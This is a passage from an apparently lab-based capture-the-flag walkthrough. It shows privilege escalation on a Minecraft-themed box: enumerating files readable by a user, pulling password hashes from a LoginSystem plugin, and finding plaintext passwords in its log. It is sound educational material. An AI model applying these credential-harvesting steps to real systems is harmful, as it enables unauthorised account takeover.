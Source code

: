 Cracked the priv key passsword --> `creepin2006`&#x20;

### Priv Esc to cybercrafted

I used find to find all the files readable by xultim.... user

```bash
find / -user cybercrafted -type f -readable 2>/dev/null

/opt/minecraft/note.txt
/opt/minecraft/minecraft_server_flag.txt
/opt/minecraft/cybercrafted/help.yml
/opt/minecraft/cybercrafted/ops.txt
/opt/minecraft/cybercrafted/bukkit.yml
/opt/minecraft/cybercrafted/banned-ips.txt
/opt/minecraft/cybercrafted/banned-players.txt
/opt/minecraft/cybercrafted/white-list.txt
/opt/minecraft/cybercrafted/plugins/LoginSystem_v.2.4.jar
/opt/minecraft/cybercrafted/plugins/LoginSystem/settings.yml
/opt/minecraft/cybercrafted/plugins/LoginSystem/passwords.yml
/opt/minecraft/cybercrafted/plugins/LoginSystem/log.txt
/opt/minecraft/cybercrafted/plugins/LoginSystem/language.yml
[---------redacted------]
```

So we found some files.

{% code overflow="wrap" %}
```bash
cat /opt/minecraft/note.txt
Just implemented a new plugin within the server so now non-premium Minecraft accounts can game too! :)
- cybercrafted

P.S
Will remove the whitelist soon.

# plugin name is:
LoginSystem
```
{% endcode %}

We find cybercrafted creds in `/opt/minecraft/cybercrafted/plugins/LoginSystem`&#x20;

```bash
cybercrafted: dcbf543ee264e2d3a32c967d663e979e
madrinch: 42f749ade7f9e195bf475f37a44cafcb
```

But they were of no use as john couldnt crack cybercrafted hash.

But the `log.txt` contains some logs with passwords:

```bash
cat log.txt 

[2021/06/27 11:25:07] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:25:16] cybercrafted registered. PW: JavaEdition>Bedrock
[2021/06/27 11:46:30] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:47:34] cybercrafted logged in. PW: JavaEdition>Bedrock
[2021/06/27 11:52:13] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:57:29] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:57:54] cybercrafted logged in. PW: JavaEdition>Bedrock
[2021/06/27 11:58:38] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:58:46] cybercrafted logged in. PW: JavaEdition>Bedrock
[2021/06/27 11:58:52] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:59:01] madrinch logged in. PW: Password123


```